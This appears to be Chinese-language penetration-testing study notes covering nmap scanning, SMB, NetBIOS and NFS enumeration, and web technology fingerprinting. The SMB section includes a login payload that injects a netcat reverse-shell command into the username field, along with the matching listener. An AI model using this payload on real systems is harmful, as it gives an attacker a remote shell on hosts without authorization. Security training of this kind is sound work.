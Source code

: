   端口TOP20来自/usr/share/nmap/nmap-serivces
  Service nmae: portnum/protocol, open-frequency, optional comments
```
nmap 主机发现
```
sudo nmap -sn ip/24
sudo nmap -p- ip --open
sudo nmap -pxx,xx,xx -sV ip
```

# SMB
扫描SMB/NETBIOS
```
sudo nmap -p139,445 -A IP
sudo nmap -v -p 139,445 -oG smb.txt xxx.xxx.xxx.1-254
sudo nmap -p139,445 --script script IP
```

NETBIOS枚举
```sudo nbtscan -r IP/24```
## Kali tool
smbclinet -L //ip
smbclient //ip/folder

```
login "/= `nc IP 4444 -e /bin/bash`"
nc -nvlp 4444
```

# NFS
运行在TCP111端口
重定向正确端口通常是默认TCP2049端口和服务

扫描rpcbind
```nmap -v -p 111 xxx.xxx.xxx.1-254```
脚本扫描
```nmap -p 111 -script nfs* IP```

## 扫描存活机器
```arp-scan -l```


# Web应用攻击
## Web枚举
### 识别目标系统技术栈
### 攻击载荷需要基于目标应用的技术栈基础来构建
  编程语言和框架
  WEB服务器软件
  数据库软件
  服务器操作系统
### 从浏览器可以收集很多信息开发工具
### 分析URL
  文件扩展名可用于发现目标系统开发语言PHP
  不同框架的文件扩展名差别巨大, 基于java的程序可能由jsp/do/html等.
  扩展名越来越不常见, 许多语言和框架都支持路由的概念, 允许程序员将URI映射到一段代码.
  利用路由的应用程序使用逻辑来确定用户返回什么内容, 令扩展名在很大程度上不再重要.
### 关注响应头
1. 截断代理(Burpsuite)
2. Header等
  Server头, 显示web服务器软件以及版本, 名称或者值通常显示服务端技术栈信息
  X- 开头的是非标准头, 经常泄露目标技术栈的额外信息
  X-amz-cf-id 表示经常使用AWS cloud
  X-powered-by (php.ini=>expose_php=off)
  X-Aspnet-Version

# WEB安全工具
```